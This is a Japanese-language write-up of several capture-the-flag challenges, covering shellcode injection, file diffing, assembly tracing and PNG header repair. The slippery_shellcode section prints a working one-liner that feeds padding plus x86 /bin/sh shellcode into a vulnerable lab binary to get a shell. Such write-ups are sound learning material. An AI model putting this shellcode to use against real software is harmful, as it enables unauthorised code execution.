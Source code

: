 ## slippery_shellcode
- 「handy-shellcode」とほぼ同じコードだが、rand()を使っている
- rand()はseed値が固定という脆弱性があるそうなので、変数offsetのとる値をLinux環境で調べる(windowsではgid_tでerror)
- offsetは常に104とわかるので、shellcodeの前に適当な104文字をくっつけて入力するだけ
```
(python -c "print 'a'*104 + '\x68\xcd\x80\x68\x68\xeb\xfc\x68\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xeb\xe1'";cat) | ./vuln
```
- shellが起動するので、flag.txtをcatする

## whats-the-difference
- 結構悩んだ  
- cmpコマンドとgawkで差分のバイトをASCII変換  
```
cmp -l cattos.jpg kitters.jpg | gawk '{printf "%c", strtonum(0$2)}' && echo
```
- 上記の出力を回答しても、正解にならない。。。  
- cat_kit.pyを作成し、バイナリでjpgファイルを読み込んで、差分をASCIIに変換する  
```
python cat_kit.py
```
- 結果は同じになった  
- flagをよく見ると、ある程度単語があって、たまに数字になってる  
- "_bu77r_"をbufferと解釈し、"_bu773r_"とすると通った  
- 原因は不明...  

## where-is-the-file
```
ls -a
cat secret_file
```


# 250 points
## asm2
- 引数が2つの時のアセンブリ言語の挙動を追っていく
- どうやら以下のプログラムに変換できそうなので、やってみる
```
a1 = 0xf
a2 = 0x21
while a1 < 0xcdf1:
    a2 += 0x1
    a1 += 0xe3
print(hex(a2))
```

## c0rrupt
- fileを渡されるが、「青空白猫」のバイナリエディタで解析してみるとpngファイルっぽい
- ヒントにheaderを直す旨が書かれていたので、pngのフォーマットを調べて修正をかける
- linuxでは、「pngcheck」というtoolがあるため、使うとCRCの部分を計算して提案してくれたりする
- やったこととしては、PNG、IHDR、IDATのシグネチャとIDATのlengthを修正
- IDATのlength(サイズは4byte)は、先頭2byteを0にするだけだった
